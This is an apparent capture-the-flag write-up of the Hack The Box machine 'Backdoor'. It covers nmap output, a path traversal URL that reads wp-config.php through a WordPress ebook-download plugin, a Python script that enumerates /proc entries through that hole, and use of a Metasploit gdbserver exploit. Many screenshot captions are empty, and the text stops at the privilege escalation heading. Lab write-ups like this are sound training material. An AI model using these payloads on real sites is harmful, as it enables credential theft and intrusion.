


# Backdoor



### 11/20/2021

Default nmap Scan open ports:

```python
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 18:27 -03
Nmap scan report for backdoor.htb (10.10.11.125)
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.52 seconds
```

First contact with the website:



Gobuster web directory scan:


All ports scan:


Listing wp plugins:


Vulnerability in the wordpress:


Vulnerability command to path traversal:

```python
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

WP database user and password:


Ok to download we must have to increment the size of the LFI and GET the machine files, we can lookup the PORT open in the /proc/id/net/tcp

Like:

In my case, i opened the port 8000, and look the PATH, convert the Hexadecimal to decimal and return the port, with the PID, we can discovery more things about the process. 


So i make a scrip to get the requests of all process and store it in a file:

```python
import requests

pid = 1337
url  = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/{}/net/tcp"
port = 80

for i in range(2000):
	print("\n\n")
	req =  requests.get(url.format(i))
	print(f"Proccess number: ------ {i} ----- \n\n")
	print(req.text)
```

The next step is grep for the port in hexadecimal, in this case the port 1337.  0539


Reading more about the return, i note that the output is the same. 

Analyzing more about the sched-debug i think that the open port can be the GDB server


Ok, i found more options to try return something about the file: so i will get the cmdline


Yeah, that's it, the running port 1337 is the gdbserver


So now we can try search vulnerabilities to exploit the open port;

I found this CVE to explore [https://www.rapid7.com/db/modules/exploit/multi/gdb/gdb_server_exec/](https://www.rapid7.com/db/modules/exploit/multi/gdb/gdb_server_exec/)

Now with the exploit we wait the port open the inject the code:


So to the exploit wrok, i change the payload to linux x64 and i got the meterpreter session. 


Screens running:


Okay searching more about the GNU screens i found a CVE to explore a vulnerability, the current version on the system is:


The CVE doesn't works in the machine.

### Privilege Escalation

